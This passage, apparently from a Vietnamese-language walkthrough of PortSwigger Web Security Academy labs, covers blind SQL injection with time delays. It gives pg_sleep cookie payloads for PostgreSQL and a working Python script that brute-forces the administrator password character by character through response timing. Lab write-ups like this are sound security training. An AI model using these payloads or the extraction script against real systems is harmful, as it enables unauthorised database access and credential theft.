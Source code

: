 
**Hoàn thành bài lab với password có được**
>![](https://i.imgur.com/sI5o7iX.png)

<hr>

### Bài 10: Blind SQL injection with time delays
>![](https://i.imgur.com/orXq0vZ.png)

Bài lab mô tả rằng cookie sẽ được nhúng trong câu truy vấn cơ sở dữ liệu, trang web sẽ không hiển thị bất kì gì khác thường giữa truy vấn thành công và không thành công. Mục tiêu của ta là khiến trang web delay 10s trước khi trả về.

Vì đề không cung cấp tên csdl nên ta sẽ tạo payload delay với từng cơ sở dữ liệu. Và có được kết quả là Postgre database.
**Payload**
```sql!
J2bOLBLZ37AJ7Qzf' || (SELECT pg_sleep(10)--
```
Khai thác thành công ta có kết quả như hình
>![](https://i.imgur.com/nbqSH1B.png)

> [color=#ea4f9a]Note: Trang web filter `AND`,`OR` nên ta không sử dụng nhiều condition trong mệnh đề WHERE được, phải dùng concat string.

<hr>

### Bài 11: Blind SQL injection with time delays and information retrieval
![](https://i.imgur.com/NK9rHBB.png)

Mô tả: Cũng là time delay nhưng mà ta sẽ lợi dụng nó để lấy dữ liệu
Thay vì `SELECT pg_sleep(10)` như bài bên trên, ta sẽ chuyển vế concat phía sau thành câu điều kiện như sau:

```sql!
NGhCZbs8GOuSuKsa' || (SELECT CASE WHEN (SUBSTRING((SELECT password FROM users WHERE username='administrator'),X,1)='Y') THEN pg_sleep(3) ELSE pg_sleep(0) END)--
```
Trong đó X nhận giá trị từ 1-20, là độ dài của password. Và Y nhận giá trị là các chữ cái và con số. Ta sẽ brute-force từng ký tự của password thông qua time delay.

**Script khai thác**
```python!
import requests

url = "https://0a1a00bb030e1999c0bdeacd00d7000c.web-security-academy.net/"

cookie = {
    'TrackingId' : ''
}
password=""
for i in range(1,21):
    for j in range(48,58):
        cookie['TrackingId'] = "NGhCZbs8GOuSuKsa' || (SELECT CASE WHEN (SUBSTRING((SELECT password FROM users WHERE username='administrator'),{},1)='{}') THEN pg_sleep(3) ELSE pg_sleep(0) END)--".format(i, chr(j))
        r = requests.get(url=url,cookies=cookie)
        if(r.elapsed.total_seconds()>=3):
            password += chr(j)
    for j in range(97,123):
        cookie['TrackingId'] = "NGhCZbs8GOuSuKsa' || (SELECT CASE WHEN (SUBSTRING((SELECT password FROM users WHERE username='administrator'),{},1)='{}') THEN pg_sleep(3) ELSE pg_sleep(0) END)--".format(i, chr(j))
        r = requests.get(url=url,cookies=cookie)
        if(r.elapsed.total_seconds()>=3):
            password += chr(j)
```